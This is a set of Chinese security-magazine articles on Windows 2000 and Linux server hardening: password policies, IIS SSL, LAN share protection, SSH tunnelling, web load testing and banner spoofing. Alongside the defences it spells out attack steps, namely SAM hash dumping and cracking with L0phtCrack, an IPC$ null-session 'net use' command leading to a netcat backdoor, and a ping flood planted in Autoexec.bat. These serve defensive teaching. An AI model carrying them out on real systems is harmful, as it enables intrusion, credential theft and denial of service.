密码与用户账户的有效利用是网络安全性的最大问题之一，如何有效地保护密码不被破解是我们一直以来孜孜以求的最高境界。密码的保护技术也正随着时代的进步和技术的发展日臻完善，但是，就当我们在阳光下努力工作的同时，另一部分人却趁着月黑风高，在摸爬滚打中使尽浑身解数实践着他们的行动——密码的破解。

本文将从黑客对密码的攻击方法入手，讲述在 Windows 2000 下的密码攻击，以及其经常被黑客驾驭的工具。当然了，如果只有这些是不行的，最后我还将就这些攻击来讨论一下对抗的策略，使各位能在运筹帷幄之中，把黑客攻击于千里之外。

### 一、常见的攻击技术介绍

- 1. **字典攻击（dictionary attack）**

到目前为止，简单的字典攻击是闯入机器的最快方法。我们可以选取一个充满字典文字的文本文件作为字典文件，并将其装入破解应用程序（如 L0phtCrack），根据应用程序定位的用户账户进行破解。在通常情况下，由于用户的警惕性不够高，而导致密码过于简单，所以使得字典攻击往往能够行之有效。

- 2. **混合攻击（hybrid attack）**

另一个众所周知的攻击形式是混合攻击。这种攻击往往是在字典攻击不奏效的情况下，针对相对复杂一点的密码，如对含有数字和字母的密码进行攻击时使用的方法。混合攻击中，数字和字符将被添加到文件，以备生成密码组合来供破解者使用。

- 3. **蛮力攻击（brute force attack）**

顾名思义，只有当以上两种攻击方法不能有效地破解时，我们才会采用最终的办法。不过，最笨的办法往往也是最有效的办法，它通常需要很长的时间进行穷举，这种攻击可能要花费几个星期的时间。密码的破解史上曾经发生过一件有趣的事情，像著名的 DES（Data Encryption Standard）曾经叱咤江湖 20 年，但是最后还是死在了最笨的穷举攻击之下。毕竟已是“大江东去，浪淘尽千古风流人物”，最后 America 不得不放弃使用 DES 而采用 AES（Advanced Data Encryption Standard），不知它能否经受得起时间的考验？

### 二、用 LC4 破解用户系统登录密码

密码攻击中，最常使用的工具之一是 L0phtCrack（简称为 LC4）。下面将对这个工具做一个介绍。

L0phtCrack 是在 NT/2000 平台上使用的密码攻击工具。通常，在 OS 中为了安全起见，用户的密码都是经过加密之后再使用 hash 算法进行散列，并将其保存在 cryptographic hashes 列表中。我们把这样一些信息称为敏感信息，因为这样的信息如果不幸落入攻击者的手中，他们将利用这些敏感信息进行攻击以致获得密码，从而可以得寸进尺，非法获得用户甚至是系统管理员的权限，最终的后果将不堪设想。此外，它并不总是有害，也有可以利用的地方，比如我们可以使用它找回用户遗忘的密码、检索用户密码等。

上面说了这么多，也都只不过是做一个预热的过程，下面我就要来介绍一下如何使用 L0phtCrack 了。

首先，我们得想办法得到密码的 hash 列表，在这里我将介绍两种常用的方法。其一，找到 SAM 文件，然后使用 L0phtCrack 工具“File”菜单中的“Import SAM File”导入 SAM 文件。其二，可以使用“Tools”菜单中的“Dump Passwords From Registry”，在对话框中输入已经注册过的计算机的 UNC 路径（\\<计算机名> 或 \\<IP 地址>），确定之后就可以将用户名和密码下载到 L0phtCrack 中。

其次，有了密码的 hash 列表之后，还需要准备一个字典。你可以使用它自带的 word-english 文件，也可以自己创建一个或到网上下载一个。然后打开“File”菜单中的“Open Wordlist File”命令，将该字典文件选择进去就可以了。

最后，如果要进行“蛮力攻击”，还应打开“Tools”选项中的“Options”命令，设定蛮力攻击所要使用的搜索空间，通常可以根据需要自由选择。做了以上这样一些预备工作之后，你可以打开“Tools”菜单的“Run Crack”命令来进行密码的攻击。当然了，这需要耗费一定的时间，当攻击完成以后，你可以看到列出的密码的明文。到此，一次攻击结束。

### 三、设置账户锁定策略

由上面的过程我们可以看到，整个过程是如此的简单，但系统一旦受到攻击，带给你的危害将是无穷的。那么，如何防止被攻击呢？通常情况下，我们可以设置密码符合复杂性要求，或者设定账户锁定策略，就可以有效地防止攻击。

- 1. Windows 2000 中，打开“开始”菜单 → “控制面板” → “管理工具” → “本地安全策略”。
- 2. 在本地安全策略之中，打开“账户策略”，先来看“密码策略”，在这里你可以启用“密码必须符合复杂性要求”；再看“账户锁定策略”，可设置“账户锁定阈值”与“账户锁定时间”。

后记：在上面的讨论中，我们主要明确了什么是密码攻击、常用密码攻击的方法、使用的工具以及如何对抗密码攻击，相信它或多或少对我们维护系统的安全性有一定的帮助。

> （上接第 211 页）

在你向外提供服务的某个连接上点击右键，打开“属性”页，双击“Internet 协议（TCP/IP）”，在打开的对话框中选择“高级”按钮，打开“选项”页，双击“TCP/IP 筛选”，选中“启用 TCP/IP 筛选”。

（2）3 个项目，分别是“TCP 端口”“UDP 端口”“IP 端口”，在这里，你可以根据自己的需要，启用相应的协议端口。这样，未被启用的端口将被全部关闭。

通过以上 3 个方面的讨论，相信大家已经对 IIS 的安全性有了更加全面的认识。只要我们在实际的工作和学习当中多加学习和实践，我们完全可以用更多的方法来保证 IIS 的安全性。

相信很多朋友都有自己的网站，而 IIS 可能也是大家搭建自己的网站比较常用的工具了。IIS 的确为我们搭建自己的网站提供了便利，但是如果没有好的安全策略和措施，IIS 便会成为黑客入侵系统的直接突破口。IIS 自身的漏洞的确不少，Unicode 解析错误漏洞、Null.htw、WebDav 等这些词语都和 IIS 密切相关。在不停地为 IIS 打补丁的同时，我们是否想过 IIS 还是不够安全呢？本文就从 SSL 的角度来讲解如何具体配置你的 IIS。

## 你的 IIS 够安全吗


文／单长虹

IIS（Internet Information Service）即 Internet 信息服务，主要用来为 IE 和 Netscape 浏览器提供通过网络访问信息的服务，但是其安全性却往往没有引起人们足够的重视。在本文中，将就以下几个方面的内容进行讨论。

### 一、SSL 简介以及在 Windows 2000 中配置 HTTP 使用 SSL

SSL（Secure Sockets Layer，安全套接层）协议，实现在 Socket 层，处于应用层和传输层之间，由 SSL 记录协议（SSL RECORD PROTOCOL）和 SSL 握手协议（SSL HAND-SHAKE PROTOCOL）组成。SSL 握手协议主要用于在客户机和服务器传送数据之前的协商过程，诸如加密算法和会话密钥的确定、特征值的提取以及通信双方的身份验证；而 SSL 记录协议则用来定义数据的传输格式，同时也起到在应用层和传输层之间的过渡作用。SSL 的通信要使用某个端口号，IANA 已经为具备 SSL 功能的应用分配了固定的端口号，例如，使用了 SSL 的 HTTP（HTTPS）被分配为 443。

下面以配置 HTTPS 为例，介绍 Windows 2000 中 SSL 的使用方法：SSL 具有 C/S 架构，我们先来看服务器端的配置。

首先，你的 OS 必须是 Server、Advanced Server 或 Datacenter Server 中的某一个。如果你用来运行 IIS 的机器在域中，则可直接在域控制器上安装证书服务，否则先要安装活动目录（Active Directory，简称 AD），方法如下：

- 1. 在 Windows 2000 中选择“开始”→“运行”，打开命令行。
- 2. 在命令行中从键盘输入“dcpromo”命令，回车。
- 3. 在活动目录的安装向导中，可以依次选择“创建一个新域的域控制器”→“创建一个新的域树”→“创建一个新的森林”→“输入 DNS 全名”→“输入域的 NetBIOS 名字”。接下来按照向导提示一步一步做下来即可。完成之后需要重启计算机。

其次，我们要在域控制器上安装证书服务，方法如下：

- 1. 在 Windows 2000 中选择“开始”→“控制面板”→“添加/删除程序”→“添加/删除 Windows 组件”→选中“证书服务”。
- 2. 打开证书安装向导，选择安装“企业根 CA”（注意：该 CA 只能为企业 CA 或其他商业 CA，Windows 2000 独立 CA 不能签发服务器证书）。
- 3. 选择“下一步”，接下来在向导对话面板中依次输入证书服务器的信息，选择“下一步”，配置完成之后就可以使用了。
- 4. 选择“下一步”，则 CA 系统处理证书请求，并产生用户要求的 Web 服务器证书，然后单击“完成”。这样，就完成了 Web 服务器证书的申请。

最后，我们将进行最为关键的一步，也就是如何在 IIS 中配置 SSL：

- 1. 在 Windows 2000 中选择“开始”→“程序”→“管理工具”→“Internet 服务管理器”。在 IIS 管理界面里选择某个 Web 站点，右键“属性”，在“目录安全性”标签页中点击“安全通信”下的“服务器证书”按钮，启动 Web 服务器证书安装向导，选择“下一步”。
- 2. 在接下来的对话框中，选择 Web 服务器证书的产生方式，选择“创建一个新证书”，再选择“下一步”。
- 3. 选择证书请求发送方式，选择“立刻发送”，将请求直接发送给 CA，然后选择“下一步”。
- 4. 输入新证书名称和密钥长度，建议 1024 位或更大长度，然后选择“下一步”。
- 5. 输入证书中要求的组织信息，然后选择“下一步”。
- 6. 输入拥有此证书的 Web 站点公用名称（NetBIOS 名称或 FQDN），然后选择“下一步”。
- 7. 输入处理证书要求的地理信息，完成后选择“下一步”。
- 8. 输入处理证书请求的证书颁发机构，可选择可用在线 CA，选择“下一步”。
- 9. 系统弹出证书信息总结对话框，选择“下一步”。
- 10. 回到“目录安全性”页，可看到“安全通信”框架内其他两项激活，点击“编辑”打开新对话框。
- 11. 在该对话框中设置安全 Web 服务属性，选中“要求安全通道（SSL）”复选项。下面“是否使用 128 位强加密”需谨慎使用，默认可不选，其他选项按需设置，最后“确定”。
- 12. 从“目录安全性”转至“Web 站点”页，可看到 SSL 端口已激活，可填默认端口 443 或按需端口号，然后“确定”。
- 13. 在浏览器地址栏输入类似“https://<IP地址>:<端口号>”的 URL 进行访问。

这样，整个 SSL 的配置和使用的过程就完成了。

### 二、配置安全的 Web 站点和 FTP 站点

有些用户喜欢节省，所以在配置站点服务时，往往使用系统默认提供的目录作为其主目录，这样往往会留给黑客得以利用的安全漏洞。建议用户将站点使用的主目录位置更改，并且找到这个文件夹，在文件夹上点击右键，单击“属性”，在“属性”对话框中选择“安全”页，在此对话框内可以针对个别用户设定相应的安全权限。

### 三、只打开常用端口

为了防止黑客利用其他不常用的端口造成的安全性威胁，从而更好地辅助 IIS 提供安全服务，我们可以只打开需要使用的端口，从而将其他的所有端口统统关闭。其实现方法如下：

- 1. 右键点击“网上邻居”，打开“属性”页。

（下转第 209 页）

## 防范局域网内的服务器被人入侵


文／李军胜

计算机入侵的方式多种多样，如互联网入侵和局域网入侵等，这里笔者想谈谈如何防止服务器在局域网内被入侵的问题。

### 防范共享入侵

如在一局域网中，服务器安装 Windows 2000 Server 系统（采用 NTFS 分区），客户机计算机名分别为 Work1、Work2……WorkN，分别安装 Windows 98 或 Windows 2000 Pro 系统。假如一台客户机的用户名为 YD_xlpos，密码为 Ei(9，已经登录到域 domain，那么即可使用默认共享入侵，只要在该客户机的网络邻居地址中输入 `\\server\\admin$`，就会出现什么结果呢？呵呵，进入了 Windows 2000 的系统目录 Windows NT 了吧，删除一个文件试试，成功了吧！再次输入 `\\server\\d$`，就进入了服务器上的 D 盘，这样服务器已经完全在该客户机用户的掌握中了，而且已经具备管理员权限。这是相当危险的，一些居心叵测的人马上可以新建 Winstart.bat 或者 Wininit.ini 文件，加入格式化 C 盘的语句，那么下次服务器启动后，C 盘下的所有文件就没有了。或者在服务器的启动项中加入现在任何流行木马的启动程序，后果可想而知。

防御办法：Windows 2000 的默认共享是为了方便远程维护，但的确给了别人可乘之机。请打开注册表编辑器，定位到：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver
```

如果是 Windows 2000 Pro，则新建 AutoShareWks 的 DWORD 值，并将键值设为 0；如果是 Windows 2000 Server，则新建 AutoShareServer 的 DWORD 值，并设置键值为 0，然后重新启动计算机，默认共享就不会出现了。

不过危险并没有消除，Windows 2000 平台的客户机还可以通过 IPC$ 的空连接入侵服务器。客户机用户可以先用端口扫描软件 X-Scan 填入服务器的 IP，在扫描模块里选择 sqlserver 弱口令和 nt-server 弱口令，当得到 nt-server 弱口令后，可在客户机的 cmd 窗口中输入 `net use \\192.168.0.88\ipc$ "" /user:"用户"` 来建立空连接，然后激活 Guest，并添加管理员权限，然后安装后门（如 netcat）就可以进行远程控制。

但危险依然存在，那怎样禁止 IPC$ 空连接呢？可定位到注册表：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA
```

修改 RestrictAnonymous 的 DWORD 值为 `00000001`。

### 防范 Ping 入侵

Ping 入侵方式也叫 ICMP 入侵，它利用了 Windows 系统的漏洞。攻击者在 Work1 的 DOS 窗口中输入 `ping -l 65500 -t 192.168.0.88`（服务器的 IP 地址），看看在服务器上系统托盘的小电脑是不是一直在闪动，那是客户机 Work1 在向服务器发出请求。那我们试着想想，如果局域网内的计算机很多，在每台计算机的 Autoexec.bat 文件中加入 `ping -l 65500 -t 192.168.0.88`，那会怎么样？服务器将会随着 CPU 使用率居高不下而崩溃，这也就是有名的 DoS（拒绝服务）。

服务器发出大量请求，服务器来不及回应，也就死机了。

防御方法：安装网络防火墙，如天网等，在设置里面点选“不允许别人用 Ping 命令探测本机”。或者在“管理工具”中点击“本地安全策略”，进入“IP 安全策略，在本地机器”中进行设置（设置过程略）。

账户如果建立有非法用户，并具备管理员权限，那管理员就要小心了。对系统提供的 Guest 用户应该禁止，因为黑客都喜欢用 Guest 来进行系统控制。对于 Administrator，管理员应该进行改名操作，并可在 C:\Documents and Settings\ 下查看用户。对于有非法用户的目录，应该查看里面有些什么东西，有什么蛛丝马迹可寻，并定期对事件查看器进行筛选加分析。对安全日志进行审核，方法为点击“管理工具”里面的“本地安全策略”，在本地策略里的审核策略中进行审核操作。

## 维护和管理服务器

那么，我们平时该怎样对服务器进行维护和管理呢？黑客入侵服务器，首先要知道服务器的 IP 地址和所开放的端口，因此我们可以在网上邻居中隐藏服务器的 IP 地址，为服务器的计算机名保密，并建立服务器通讯端口列表，对一些敏感的端口如 139、3389、5000 等进行屏蔽。对一些病毒或者木马的连接端口应该有一定的了解，如冰河的 7626 端口，广外女生的 6267 端口。

首先，安装病毒防火墙和网络防火墙，并进行相应的设置。定期对病毒库进行更新，有计划地对服务器进行查杀病毒操作。其次，定期用 DOS 命令 netstat -a 或者 SuperScan 软件对服务器开放的端口进行检测，将检测结果和以往备份的端口列表进行比较。如果发现未知端口有异常连接建立或者正在监听，特别是高端端口，则立即断开网络，用检测木马的软件进行检测，这里推荐使用 Trojan Remover。对于服务器所开的进程也是不能忽略的，用进程检测软件如 Windows 优化大师的进程管理检测服务器所运行的进程，并和以往的进程列表作比较，如发现不明进程，那就要小心了。对于 Win2000 的服务也须小心配置，因为它是在系统启动前加载的，如可将 Task Scheduler、RunAs Service、FTP 等等改为手动，最好能够了解各种服务的作用。对于服务器所开的共享应该心中有数，可用 net share 命令来查看，不过在可能的情况下最好不要开文件共享。即使要开启共享，也应该设置密码和相应的用户才能登录，最好不要打开写文件的权限。

接着打开“计算机管理”（点击“我的电脑”，再右键点击“管理”），检查用户和组里是否有非法用户。

在英文识别不成问题的情况下推荐使用 Windows 2000 英文版，我们知道，中文版的 Bug 比英文版的多，中文补丁的推出也相对较晚，对微软的 SP 补丁包也需及时更新。建议多去微软的站点检测，方法为点击开始菜单指向 Windows Update，注意微软发布的安全公告，对病毒和系统漏洞的最新动态应该有一定的了解，堵上系统存在的漏洞，这会减少服务器被人入侵的几率。如果你是系统管理员，笔者建议要合理选择安装相关组件，如你不需要 Web 服务就不需要安装 IIS，不需要远程维护就不要安装“超级终端”等，但对一些需要的组件建议安装，如网络监视器。另外，对一些特殊的 DOS 命令，应尽量修改扩展名，在可以不用超级用户登录的情况下尽量不要用超级用户登录，超级用户的密码要做到科学配置，大小写加特殊字符，降低被暴力破解的几率。

另外，笔者还要提醒系统管理员，不要私自在服务器上试用新软件，特别是大型软件和 Beta 版软件，不要用服务器作为上网的主机，不能让不具备权限的人接近服务器。Windows 2000 Server 系统的稳定性和安全性还是非常高的，系统的崩溃大部分原因是由于人为的误删除或者误操作所致！总之，对服务器的安全问题应该引起人们极大的重视，应挂接多个硬盘做好备份，使服务器在出错后能够快速恢复。

众所周知，网络上目前开放的很多服务都是以明文传输的，需要借助第三方软件来帮它们加密，从而达到安全传输的目的，防止信息被窃取。本文作者提供大家一种 SSH 的加密方式，同时帮助读者们理解加密传输的概念。


## 给明文协议加锁


文／包子

大家都知道，FTP、Telnet、POP 和 SMTP 等都是明文协议，也就是说，它们在传输数据的时候，数据都是没有被加密的，这样一些敏感数据就会很容易被 Sniffer 截获。虽然现在已经普遍使用交换机来代替 Hub 了，但是随着新一代的 ARP Sniffer 的出现，在交换环境下窃取数据也是很简单的事情。至于 ARP Sniffer 的原理这里就不赘述了。而且，这些服务程序的安全验证方式也是有其弱点的，就是很容易受到“中间人”（man-in-the-middle）这种方式的攻击。所谓“中间人”的攻击方式，就是“中间人”冒充真正的服务器接收你传给服务器的数据，然后再冒充你把数据传给真正的服务器。服务器和你之间的数据传送被“中间人”一转手做了手脚之后，就会出现很严重的问题。

现在的目的就是在服务端和客户端做些手脚，让敌人拿不到明文的数据。我们下面会使用到以下几个软件：FlashFXP、SERV-U、VANDYKE VShell、VANDYKE Entunnel。在着手之前，先解释两个概念。

### 1. SSL

Secure Socket Layer（SSL）协议是由 Netscape Communication 公司设计开发，主要用于提高应用程序之间数据的安全性。该安全协议主要用来提供对用户和服务器的认证，对传送的数据进行加密和隐藏；确保数据在传送中不被改变，即数据的完整性。由于 SSL 技术已建立到所有主要的浏览器和 Web 服务器程序中，因此，仅需安装数字证书或服务器证书就可以激活服务器功能了。

它的功能如下。

- **机密性**：这是通过对数据进行加密实现的。在进行 SSL 握手时，SSL 选择一种对称算法对数据进行加密，然后才在网络上传输数据。SSL 使用的加密算法有好多种，如果某种算法被新的网络攻击方法识破，它只要选择另外的算法就可以了。
- **消息的完整性**：SSL 使用一种很健壮的信息验证码，例如 SHA-1，验证码被放在数据包的后部，并且和数据块一起被加密。这样，如果数据被修改，其散列值就无法和原来的验证码匹配，从而能够检测出数据是否被修改。MAC 同时也用于保护 SSL 连接免受干扰。
- **防重放/乱序攻击**：保护数据免受重放攻击（replay-attack）。SSL 使用序列号来保护通讯方免受报文重放攻击。这个序列号被加密后作为数据包的负载，在整个 SSL 握手中，都有一个惟一的随机数标记这个 SSL 握手，这样重放便无机可乘。并可防止记录攻击（recorder-attack）中数据包以不同次序发送。
- **端点验证**：使用 X509（当前版本是 3）证书，SSL 支持客户端和服务器的验证。

### 2. SSH

SSH 的英文全称是 Secure Shell。使用 SSH，你可以把所有传输的数据进行加密，这样，“中间人”这种攻击方式就比较难实现了，而且也能够防止 DNS 和 IP 欺骗。还有一个额外的好处就是传输的数据是经过压缩的，所以可以加快传输的速度。

现在我们首先解决 FTP 的问题。这里，我们需要配置让 SERV-U 支持 SSL。在对它做完一些基本的配置之后，运行 ServU Admin，找到你需要加密的那个域，在“Security”选项那选择“Allow SSL/TLS and regular sessions”，然后“Apply”。这样 FTP 服务器对 SSL 的支持就启用了。

下来就配置 FlashFXP 让它支持 SSL，很简单，在“站点管理器”或者“快速连接”处选“SSL”，然后选“Auth SSL”，现在就可以连接支持 SSL 的服务器，接受并保存来自服务器的证书，这样你和服务器之间的数据都会被加密，不再怕 Sniffer 了。

最后，关于 FTP 的 SSL 有点要补充的是，如果你在 SERV-U 配置的时候选择的是“Allow SSL/TLS and regular sessions”（支持 SSL 和普通的 FTP 会话），那么在 FlashFXP 的 SSL 选项中就要选择“Auth SSL”；如果你选择的是“Allow only SSL/TLS sessions”（只支持 SSL 会话）的话，那么在 FlashFXP 的 SSL 选项中就要选择“implicit SSL”（隐含 SSL），否则在连接的时候会出问题的。

下面我们开始为 POP、SMTP 和 Telnet 等协议上锁。在上面我们已经介绍了 SSH，它除了可以用来替代 Telnet 和 FTP 之外，更加重要的功能就是 tunnel（隧道）功能，它可以把明文的数据通过隧道的方法转发到目标地址去。下面，我们就使用 VANDYKE 的 VShell 和 Entunnel 来方便地实现这个功能。

首先，我们先用 VShell 在本地做一个 SSH 服务器，安装之后，如果没有特殊的要求，基本上不用设置就可以使用了，方便吧：）

重新启动之后，telnet 127.0.0.1 22，你会发现“SSH-2.0-VShell_2.03 VShell”这个 banner，如果没有这个信息，请查看 VShell 的帮助。

接着，我们配置 Entunnel。安装之后，在程序的主窗口先创建一个新的 Session（图 1 左起第三个键）。先为 Connection 取个名字，并写上 hostname：127.0.0.1，username：administrator（图 2）。


在 Port Forwarding 那“add”一个规则并给它命名，我们就写“SMTP”吧，接着分别在 Local 写上 IP：127.0.0.1，和 Remote 那写上 SMTP 服务器地址，并在两个 port 栏写上“25”，这样一个 SMTP 转发规则就设置好了，如图 3 所示。接着，再添加一个 POP 转发规则，配置和 SMTP 的差不多，把端口改成 110 就 OK 了。


最后，点 Connect 输入你的 administrator 密码并保存，如果密码没错的话，我们可以看到它的“Status”是“connected”的，并且任务栏的图标变成了绿色。如果你的结果不一样，请检查密码是否错误，并且在“Details”检查出错信息，或者查看 Entunnel 的帮助文档。

现在，只要我们对邮件客户端进行少少的改动就大功告成了，把它的 POP 和 SMTP 服务器都设置为 127.0.0.1，这样，你收发邮件的任何动作都是被加密了的。当然，这个方法同样可以用在 Telnet 等其他协议上，而且可以在“remote”那设置远程转发，这些就留给读者自己尝试了。

企业、机关、政府和金融行业在互联网上拥有自己的网站已经不是什么稀奇的事了，然而这些网站却是最容易让黑客注目、让商家蒙受损失的招牌。对于网管人员来说，通过对当前 Web 页面的分析能够了解网站的运行情况，只有知道状况才能适时把握。本文作者通过介绍一款监视网页性能的软件，提供大家一点心得。

## Web 页面性能分析


文 / 芒果

网管在网络日常维护工作中，需要知道服务器的响应时间和网络运行效率等参数，这为我们设计并管理一个健康的网络提供依据。虽然这里有专门基于硬件的性能分析工具出售，比如：SmartBits 6000B 性能分析系统，实物如图 1 所示。

不过购买这种高端设备的价格恐怕比我们日常维护的网络总价值还要昂贵得多，不是我们这些中小型网络的网管所能装备得起的。看来要得到性能测试数据，还得从其他方面着手。

我最近发现了一款纯软件的服务器性能测试软件：Web Server Stress Tool（Web 服务器流量工具）。我们可以在其公司 Paessler 的网站 www.paessler.com 上下载到这款软件的 5 用户 DEMO 版。该软件可以运行在 Windows（95/98/ME/NT/2000/XP）平台，能够检测几乎所有的 Web 页面服务（比如：HTML 页面、JSP、ASP 页面、CGI 页面等）的性能、加载、数据流等方面。

Web Server Stress Tool 软件是通过模拟访问者在同一时间顺序进站访问你的 Web 服务器来反映具体的情形。只要输入网站的 URL 地址以及所要模拟的访问人数即可，接下来可以看到 Web 服务器在这种压力测试下的评比结果，显示的数据包括服务器的响应时间、传输速率等相关数据。下面我们一起看看该软件具体是怎么应用的吧。

双击软件的图标（一个被“压”的四角冒烟的服务器），首先显示出当前我们使用的该软件版本信息，可以看到使用的版本信息（笔者使用的是 6.0 企业版）。进入软件主界面，如图 2 所示。我们看到，主要的操作都可以通过工具栏实现，各个窗口的视图切换可以通过左侧的图标按钮加以选择。


图 1


图 2

首先，添加一个被测试的 Web 网站，单击左侧的“URLs”图标，如图 3 所示。再单击“URL Recorder”按钮，弹出窗口（图 4）。在“URL”地址栏填写我们的目标网站 www.sdre.com.cn，完成后单击“Go to URL”按钮，下方窗口显示出目标网站预览情况，最后单击右侧“OK”按钮。这样，我们就完成了添加一个测试网站。如果还想同时测试数个目标网站的话，请先在“URLs”页面单击“Add URL”按钮，如图 5 所示。创建多个 URL 后，然后按照上面提到的步骤添加新的受测网站的 URL 到列表中即可。


最后，让我们重点看看“Test Setup”视图中图 6 所示的几项设置要求，这包括：

- Test Type —— 测试类型
- TIME Run Test For —— 测试持续的时间
- CLICKS Run Test Until —— 每用户进行多少次访问（与上面的测试持续时间只能单选）
- User Simulation —— 用户模拟
- Number Of Users —— 设定共有多少位用户进行访问
- Time Between Clicks —— 每次访问的时间间隔（用户访问页面当然有个空闲时间，总不能一直不停地单击访问网站吧，连续的访问就是 D.O.S 行为了）
- Logging Period —— 日志形式

在其他的视图页面中还有一些不重要的设置数值，我们在以后的使用中再慢慢摸索吧。图 6 显示的设置情况，就是为 1000 个用户在 5 分钟之间对目标网站进行访问，每次访问时间间隔为 15 秒。

参数设定完毕以后，单击工具栏上的 **GO** 按钮，开始测试过程。通过“Graphs”视图，我们可以适时检测到各种测试曲线。图 7 提供了 6 类测试图表，可以满足我们的各种需要。如果需要具体的测试数据，可以通过“Log files”视图来查看记录到日志中的相关信息。


通过对 Web 网站的流量压力分析，可以有助于我们合理调整网络带宽，找出网络访问的瓶颈所在。这为维护健康的网络提供了可靠的数据参考。

banner 是最容易泄露系统信息的东西，如果我们对它进行一些适当的修改，是不是就能达到意想不到的效果呢？事实确实如此，下文就是通过修改 banner，把 Linux 服务器伪装成了 Windows 主机。


## 安能辨我是雄雌——对 Linux 服务器进行伪装

文／海的归宿

入侵之前我想大家会做的第一件事情就是刺探目标主机的信息，知己知彼，百战不殆。这时候你可能会利用各种方法得到目标主机所提供服务的版本信息，从而判断其是否存在漏洞。Banner 即标识，我们可以对每个打开的端口进行相应的连接，通常这些服务程序会非常高兴地显示自己的“banner”，也就让我们能够直接得到它是什么版本，如 ftp、telnet、sendmail 等系统服务。黑客则通过这些返回的 banner，依靠经验或资料，判断系统版本及服务的漏洞信息，从而发动进攻。更值得黑客们庆幸的是，现在很多扫描器都具备了自动获取 banner 的功能，这样大大减轻了入侵者的工作量和准确度，如 nmap、portready 等。

作为管理员，能在第一步就打消黑客们的入侵念头或思路，为什么不呢？我们只要伪造系统服务的 banner，达到迷惑的作用，让他们无从下手。接下来我们就对一些能轻易获得 banner 的服务进行伪造，这些服务包括 ftp、ssh、telnet 和 http。

### FTP banner

最近 wu-ftpd 出了 fb_realpath() 远程单字节缓冲区溢出漏洞，大家又为 wu-ftpd 捏了一把汗。不只是 wu-ftpd，当今很多 FTP 服务程序都存在大大小小的漏洞，可网络离开它们又不行。攻击者入侵前都会先连接上远程目标主机的 FTP，通过返回的 banner，判断 FTP 服务程序的版本信息，再利用网上免费提供的漏洞数据库，轻易就能得到对应程序版本的漏洞资料及测试信息。

```bash
[root@9836 root]# ftp 127.0.0.1
Connected to 127.0.0.1
220 localhost.localdomain server (Version wu-2.6.1-16) ready.
Name:
```

又是 wu-ftp，版本为 2.6.1-16，大家知道该怎么做了吧。如何才能让 ftp 服务器不返回 banner 呢？或者直接按我们的意思返回我们修改的信息呢？有办法。wu-ftpd 的 banner 信息写在 /usr/sbin/in.ftpd 这个执行文件中：

```bash
[root@9836 root]# strings /usr/sbin/in.ftpd
...
/var/log/lastlog
Could not write %.100s: %.100s
Version wu-2.6.1-16
```

现在你就可以用 Linux 自带的十六进制编辑器 khexedit 进行修改，当然是改成微软的产品了。

```text
Microsoft FTP Service (Version 5.0)
```

### SSH banner

SSH 是英文 Secure Shell 的简写形式。通过使用 SSH，你可以把所有传输的数据进行加密，这样“中间人”这种攻击方式就不可能实现了，而且也能够防止 DNS 欺骗和 IP 欺骗。虽然 SSH 在安全方面……已经做了很多改进，但 SSH 多个版本还是存在安全漏洞的。SSH 的默认服务端口为 22，获得它的版本信息很简单，直接 Telnet 到它的服务端口就行了。

```bash
[root@9836 root]# telnet 192.168.160.132 22
Trying 192.168.160.132.
Connected to 192.168.160.132
Escape character is '^]'.
SSH-2.0-OpenSSH_3.4p1
```

系统自动返回的 banner 说明版本为 2.0，大家马上就会发现可以利用早先的 SSH crc32 compensation attack detector exploit 进行攻击。如何屏蔽不显示 banner 呢？也很简单，编辑文件 `/etc/ssh/sshd_config`，找到这行：

```conf
Banner /etc/issue.net
```

在其前加上“#”号，把它注释了就行了。

### Telnet banner

Telnet 是 Linux 默认安装的远程登录程序，它由运行在用户本地计算机（客户端）上的 Telnet 客户程序和运行在要登录的远程计算机（服务器端）上的 Telnet 服务器程序所组成。用过 Telnet 远程管理的朋友都知道，一连接远程计算机，系统就会自动显示操作系统版本信息：

```bash
[root@9836 root]# telnet 192.168.160.132 23
Trying 192.168.160.132.
Connected to 192.168.160.132
Escape character is '^]'.
Red Hat Linux release 7.2 (Enigma)
Kernel 2.4.7-10 on an i686
login:
```

从中可以看到操作系统为 Red Hat Linux release 7.2，内核版本 2.4.7-10，计算机为 i686。现在攻击者只要打开 Google，瞬间就能找到此系统的攻击程序……懂得 telnet banner 的重要了吧，所以我们不能告诉他们真正的情况。Telnet 信息存放于 `/etc/issue.net`，我们只要修改它就行了。

```bash
[root@9836 root]# cat /etc/issue.net
Red Hat Linux release 7.2 (Enigma)
Kernel \r on an \m
```

改成什么呢？当然随你了，你可以让它显示空白，也可以把它改成 Windows 系统的 Telnet 登录信息。

```text
Microsoft (R) Windows (TM) Version 5.00 (Build 2195)
Welcome to Microsoft Telnet Service
Telnet Server Build 5.00.99206.1
```

由于 issue.net 重启后会自动恢复，为了保留成果，我们需要再编辑 `/etc/rc.local` 文件，在这些行前加“#”号，把恢复命令给注释了：

```bash
#### echo "" > /etc/issue
#### echo "$R" >> /etc/issue
#### echo "Kernel $(uname -r) on $a $SMP$(uname -m)" >> /etc/issue
#### cp -f /etc/issue /etc/issue.net
#### echo >> /etc/issue
```

### Http banner

至于 Web 服务器，Linux 下最流行的莫过于 Apache。但 Apache 并不是绝对安全的 Web 服务器，多个版本还是存在严重的安全漏洞，所以建议大家在打补丁的同时，也好好隐藏 Apache 的版本信息，不能让入侵者有机可乘，获得 Apache 的 banner。

```text
F:\>nc 218.5.4.6 80
GET HEAD / HTTP/1.0  <--- 输入

HTTP/1.1 400 Bad Request
Date: Mon, 25 Aug 2003 23:12:47 GMT
Server: Apache/2.0.40 (Red Hat Linux)
Vary: accept-language
Accept-Ranges: bytes
Content-Length: 983
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Expires: Mon, 25 Aug 2003 23:12:47 GMT
```

从返回的信息中得到 Apache 的版本号为 2.0.40，还能知道服务器操作系统为 Red Hat Linux。如何修改呢？安装 Apache 前，我们在源文件 `/src/include` 目录下找到 `httpd.h` 头文件，就是它定义了 Apache 的版本信息，Apache 安装时调用它。编辑 `httpd.h` 文件：

```c
#define SERVER_BASEREVISION "1.3.20"
----more----
```

找到定义 Apache 版本信息的这几行代码，现在你就可以随意修改了，建议改成 Microsoft-IIS/6.0。

```bash
[root@9836 root]# tar zxvf apache_1.3.20.tar.gz
[root@9836 root]# cd apache_1.3.20
[root@9836 root]# cd /src/include/
[root@9836 root]# more httpd.h
......            /* 省略 */
#define SERVER_BASEVENDOR  "Apache Group"
#define SERVER_BASEPRODUCT "Apache"
```

### 后记

